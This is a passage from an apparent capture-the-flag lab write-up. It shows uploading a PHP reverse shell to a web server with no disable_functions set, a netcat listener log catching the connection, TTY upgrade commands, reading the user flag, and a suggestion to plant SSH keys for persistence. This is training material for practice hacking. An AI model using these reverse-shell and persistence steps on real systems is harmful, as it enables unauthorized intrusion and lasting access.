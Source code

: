 There was no `disable_functions` defined, so I can upload a reverse shell right away

> Reverse shell source : https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

![](/assets/obsidian/19b715008ed6db177f60e1d0a061de95.png)

```bash
┌──(bravosec㉿fsociety)-[~/www]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.32] from (UNKNOWN) [10.129.120.40] 43976
SOCKET: Shell has connected! PID: 81148
/usr/bin/script -qc /bin/bash /dev/null
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/www]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
<ject_admin/public/uploads/images$ export TERM=xterm
ns 209sage:/var/www/html/project_admin/public/uploads/images$ stty rows 50 column
dash@usage:/var/www/html/project_admin/public/uploads/images$ id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
dash@usage:/var/www/html/project_admin/public/uploads/images$ cat ~/user.txt
179a18fca36f2103cbb216495a1544b7
```

- Since the webshell gets removed by a script constantly, we can add our ssh keys to `~/authorized_keys` to persist access
